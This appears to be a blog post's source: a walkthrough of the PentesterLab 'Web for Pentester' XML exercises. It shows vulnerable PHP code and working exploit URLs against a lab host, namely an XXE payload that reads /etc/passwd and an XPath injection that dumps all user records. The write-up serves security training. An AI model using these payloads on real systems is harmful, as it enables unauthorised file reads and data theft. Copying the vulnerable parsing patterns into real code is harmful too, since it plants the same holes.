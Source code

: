 ```yaml
---
layout: post
title: "Pentesterlab--Web for Pentester-XML"
date: 2016-03-23 17:11:36 -0400
comments: true
categories: [pentesterlab, XML, web pentest]
---
```


Web for Pentester: This exercise is a set of the most common web vulnerabilities

Difficluty: 1/5
<!--more-->

OWASP: [Testing for XML Injection](https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OTG-INPVAL-008%29)

###Example 1

code review

```php example1.php
<?php
  $xml=simplexml_load_string($_GET['xml']);
  print_r((string)$xml);
?>

```

XML injection point search:

ZAP add fuzzing file:

`https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/XML.txt`


exploit:

`http://192.168.79.162/xml/example1.php?xml=<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/passwd">]><foo>&xxe;</foo>`

`!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/passwd">]><foo>&xxe;</foo>` needed to be encoded.



### Example 2

code review

```php example2.php
 $x = "<data><users><user><name>hacker</name><message>Hello hacker</message><password>pentesterlab</password></user><user><name>admin</name><message>Hello admin</message><password>s3cr3tP4ssw0rd</password></user></users></data>";

  $xml=simplexml_load_string($x);
  $xpath = "users/user/name[.='".$_GET['name']."']/parent::*/message";
  $res = ($xml->xpath($xpath));
  while(list( ,$node) = each($res)) {
      echo $node;
  }

```
exploit:

`http://192.168.79.162/xml/example2.php?name=' or 1=1]%00`